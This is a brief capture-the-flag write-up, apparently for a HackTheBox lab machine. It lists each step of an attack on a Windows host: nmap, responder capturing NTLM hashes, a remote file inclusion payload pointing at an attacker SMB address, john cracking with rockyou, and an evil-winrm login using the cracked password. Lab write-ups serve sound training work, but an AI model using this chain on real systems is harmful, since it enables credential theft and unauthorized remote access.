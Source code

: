 # reconnaissance
## nmap scan
- [nmap scan](./evidences/nmap.txt)
- nmap -sV unika.htb -oN nmap.txt
- Apache web server on port 80/tcp
- WinRM server on port 5985/tcp

# resource development
## responder tool
- [NTLM hash](./evidences/ntlm_hash.png)
- responder -I tun0
- listening on the interface connected to the LAN of the target for LLMNR (Link Local Multicast Neighbor Resolution)
- so that we can get the username and HASH (MD4) used to authenticate via NTLM

# initial access
## remote-file-intrusion
- [RFI command](./evidences/remote_file_intrusion.png)
- index.php?page=//10.10.14.78/test
- the responder logs are stored in: /usr/share/responder/log
- the hash inside the log is saved inside [NTLM hash] (./evidences/hash.txt)

## hash crack
- [NTLM hash cracked](./evidences/hash_cracking.png)
- john --wordlist=/usr/share/wordlist/seclists/Passwords/Leaked-Databases/rockyou-75.txt ./evidences/hash.txt

## WinRM access
- [WinRM shell access](./evidences/WinRM_access.png)
- evil-winrm -i unika.htb -u Administrator -p badminton

# privilege escalation
- [root flag](./evidences/root_flag.png)
- cat C:\Users\mike\Desktop\flag.txt
